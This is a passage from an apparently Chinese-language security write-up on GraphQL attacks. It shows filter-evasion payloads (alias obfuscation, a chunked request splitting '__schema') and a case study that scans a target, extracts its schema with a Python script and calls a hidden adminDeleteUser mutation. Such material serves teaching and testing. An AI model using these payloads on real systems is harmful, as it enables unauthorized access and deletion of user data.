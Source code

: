 ### 2.3 协议规避技术
1. 别名混淆攻击：
```graphql
query {
  __aliased: __schema {
    types { name }
  }
}
```
2. 分块请求绕过：
```http
POST /graphql HTTP/1.1
Transfer-Encoding: chunked

7
{__sch
5
ema{ty
```

## 三、实战案例分析
### 3.1 电商平台漏洞实例
**攻击步骤：**
1. 发现未授权内省端点
```bash
graphql-inspector scan http://target.com/graphql --detect-introspection
```
2. 提取完整schema：
```python
import requests

introspection_query = open('introspection.txt').read()
response = requests.post('http://target.com/graphql', json={'query': introspection_query})
schema = response.json()['data']['__schema']
```
3. 分析发现隐藏的adminMutation：
```json
{
  "name": "adminDeleteUser",
  "args": [
    {
      "name": "userId",
      "type": { "name": "ID" }
    }
  ]
}
```
4. 构造权限提升请求：
```graphql
mutation {
  adminDeleteUser(userId: "123") {
    success
  }
}
```
